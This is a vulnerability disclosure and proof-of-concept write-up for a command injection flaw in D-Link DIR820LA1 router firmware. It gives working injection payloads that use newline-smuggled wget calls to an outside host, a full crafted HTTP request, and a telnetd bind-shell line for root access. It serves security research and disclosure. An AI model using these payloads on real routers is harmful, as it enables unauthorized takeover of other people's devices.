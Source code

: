 # D-link DIR820LA1_FW105B03 Command injection vulnerability

A command injection vulnerability  exists in several variables of the component "/tools_email.asp" of D-Link DIR820LA1_FW105B03 allows attackers to escalate privileges to root via a crafted payload.

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ： http://www.dlinktw.com.tw/techsupport/download.ashx?file=2663

## 1. Affected version

DIR820LA1_FW105B03

## Vulnerability details

The file directory where the vulnerability is located:`/sbin/ncc2`

The `sub_5129BC` function obtains the content of the variable `emailCfg_AccountName_1.1.0.0`、`emailCfg_SMTPServerAddress_1.1.0.0`、` emailCfg_EmailTo_1.1.0.0`、`emailCfg_EmailFrom_1.1.0.0`  from the request of `/tools_email.asp`, and splicing the parameters of the system causes the command to be executed.

![vuln1](vuln1.png)

Command execution defense bypass. The function `hasInjectionString` filters the written instructions, but it does not filter `%0a`,`$` and other symbols, resulting in bypass. See poc for specific methods.

![vuln2](vuln2.png)

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the FirmAE simulation firmware DIR820LA1_FW105B03.bin

​	<img src="firmAE.png" alt="firmAE" style="zoom:70%;" /><img src="FirmAE2.png" alt="FirmAE2" style="zoom:70%;" />

2. Attack with the following POC attacks

​	**Attack Vector1**：`emailCfg_AccountName_1.1.0.0=%0awget http://192.168.0.2%0a`

​	**Attack Vector2**：`emailCfg_SMTPServerAddress_1.1.0.0=%0awget http://192.168.0.2%0a`

​	**Attack Vector3**：`emailCfg_SMTPServerAddress_1.1.0.0=%0awget http://192.168.0.2%0a`

​	**Attack Vector4**：`emailCfg_EmailFrom_1.1.0.0=%0awget http://192.168.0.2%0a`

- First use `sudo python3 -m http.server80` to build a web server locally, and you will see the echo

<img src="email_tool.png" alt="email_tool" style="zoom:70%;" />

- Then find the Tool Email entry, and use Burp to modify the data message to be consistent with the poc

```xml
POST /get_set.ccp HTTP/1.1
Host: 192.168.0.1
Content-Length: 542
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.0.1
Referer: http://192.168.0.1/tools_email.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: hasLogin=1
Connection: close

ccp_act=set&ccpSubEvent=CCP_SUB_WEBPAGE_APPLY&nextPage=tools_email.asp&emailCfg_Enable_1.1.0.0=1&emailCfg_EmailFrom_1.1.0.0=aaa&emailCfg_EmailTo_1.1.0.0=123&emailCfg_SMTPServerAddress_1.1.0.0=123&emailCfg_SMTPServerPort_1.1.0.0=25&emailCfg_AuthenticationEnable_1.1.0.0=1&emailCfg_AccountName_1.1.0.0=%0awget http://192.168.0.2%0a&emailCfg_AccountPassword_1.1.0.0=WDB8WvbXdHtZyM8Ms2RENgHlacJghQyGWDB8WvbXdHtZyM8Ms2RENgHlacJghQyG&emailCfg_LogOnFullEnable_1.1.0.0=1&emailCfg_LogOnScheduleEnable_1.1.0.0=1&emailCfg_LogScheduleIndex_1.1.0.0=254&1675062771722=1675062771722
```

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell，Such as`emailCfg_AccountName_1.1.0.0=%0atelnetd -l /bin/sh -p 10000 -b 0.0.0.0%0a`